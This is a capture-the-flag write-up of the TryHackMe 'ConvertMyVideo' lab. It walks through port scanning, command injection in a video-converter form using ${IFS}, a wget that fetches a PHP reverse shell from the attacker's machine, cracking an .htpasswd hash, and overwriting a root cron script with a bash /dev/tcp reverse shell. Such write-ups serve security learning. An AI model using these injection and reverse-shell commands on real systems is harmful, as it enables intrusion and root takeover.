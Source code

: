 # THM - ConvertMyVideo

#### Ip: 10.10.10.79
#### Name: ConvertMyVideo
#### Rating: Medium

----------------------------------------------------------------------

![convert.png](../assets/convertmyvideo_assets/convert.png)

### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I will also use the `--min-rate 10000` flag to speed the scan up.

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ sudo nmap -p-  --min-rate 10000 10.10.13.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-27 13:51 CDT
Warning: 10.10.13.182 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.13.182
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.68 seconds
```

We can enumerate further by scanning the open ports, but this time use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 651bfc741039dfddd02df0531ceb6dec (RSA)
|   256 c42804a5c3b96a955a4d7a6e46e214db (ECDSA)
|_  256 ba07bbcd424af293d105d0b34cb1d9b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.29 seconds
```

Heading over to the site we find a page that appears to be a video converter. 

![site.png](../assets/convertmyvideo_assets/site.png)

And it appears to error out when anything is entered:

![wrong.png](../assets/convertmyvideo_assets/wrong.png)

Let's capture this in Burp so we can take a closer look at what is going on here.

Here I entered 'hey!' into the field and captured it in Burp. It looks like it is in fact making a POST request, and is appending the entered info into youtube.com. 

![hey.png](../assets/convertmyvideo_assets/hey.png)

Playing around with this field a bit more, I tried entering in `id` into the field and saw that we have code execution here!

![id.png](../assets/convertmyvideo_assets/id.png)

Lets try something more malicious with this now. 

### Exploitation

Lets bring a copy of php-reverse-shell.php to our working directory and update the IP address and Port fields:

![php.png](../assets/convertmyvideo_assets/php.png)

We can now set up both a Netcat listener as well as a Python http server. Heading back into Burp we can update the `yt_url` field with: `wget${IFS}http://10.6.61.45/php-reverse-shell.php` (${IFS} is a built in Bash variable standing for Internal Field Separator. This lets us account for the space in the command)

Checking back in the terminal our Python logs show the command worked and the file was downloaded.

```text
┌──(ryan㉿kali)-[~/THM]
└─$ python -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.13.182 - - [27/Jul/2023 14:29:16] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

We can now navigate to http://10.10.13.182/php-reverse-shell.php and catch a reverse shell back in our listener.

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ nc -lvnp 443               
listening on [any] 443 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.13.182] 32874
Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:30:59 up 46 min,  0 users,  load average: 0.00, 0.00, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
dmv
```

We can grab the first flag in the `/var/www/html/admin` directory:

![user_flag.png](../assets/convertmyvideo_assets/user_flag.png)

Also of interest here are two hidden files. Let's check those out:

```text
www-data@dmv:/var/www/html/admin$ cat .htaccess
AuthName "AdminArea"
AuthType Basic
AuthUserFile /var/www/html/admin/.htpasswd
Require valid-user
www-data@dmv:/var/www/html/admin$ cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

Cool, looks like we've found some credentials. Copying the hash back to my attacking machine I can quickly crack it with JohntheRipper:

![hash.png](../assets/convertmyvideo_assets/hash.png)

But it doesn't appear I can use the credential anywhere locally. 

```text
www-data@dmv:/var/www/html/admin$ cd /home
www-data@dmv:/home$ ls
dmv
www-data@dmv:/home$ su dmv
Password: 
su: Authentication failure
www-data@dmv:/home$ su root
Password: 
su: Authentication failure
```
Lets keep poking around.

### Privilege Escalation


Based on the credential username, I navigated to `/admin` in the browser and logged in with the discovered credentials. There I found a "Clean Downloads" button. Checking out the source code we find:

![clear.png](../assets/convertmyvideo_assets/clear.png)

Interesting, lets check that out in the shell we have. 

```text
www-data@dmv:/var/www/html/tmp$ cat clean.sh
rm -rf downloads
```

Because this file is owned by root, and it's purpose is to just clear out directories, I'm wondering if it is a cronjob.

Lets write to it a reverse shell using:

```text
echo "bash -i >& /dev/tcp/10.6.61.45/53 0>&1" > clean.sh
```

And wait with a listener on our attack box.

Nice! We've caught a shell back as root!

```text
┌──(ryan㉿kali)-[~/THM/ConvertMyVideo]
└─$ nc -lvnp 53                
listening on [any] 53 ...
connect to [10.6.61.45] from (UNKNOWN) [10.10.215.88] 40476
bash: cannot set terminal process group (1388): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp# whoami
whoami
root
root@dmv:/var/www/html/tmp# hostname
hostname
dmv
```

Lets grab that last flag:

![root_flag.png](../assets/convertmyvideo_assets/root_flag.png)

Thanks for following along!

-Ryan

--------------------------------------------------------------------------
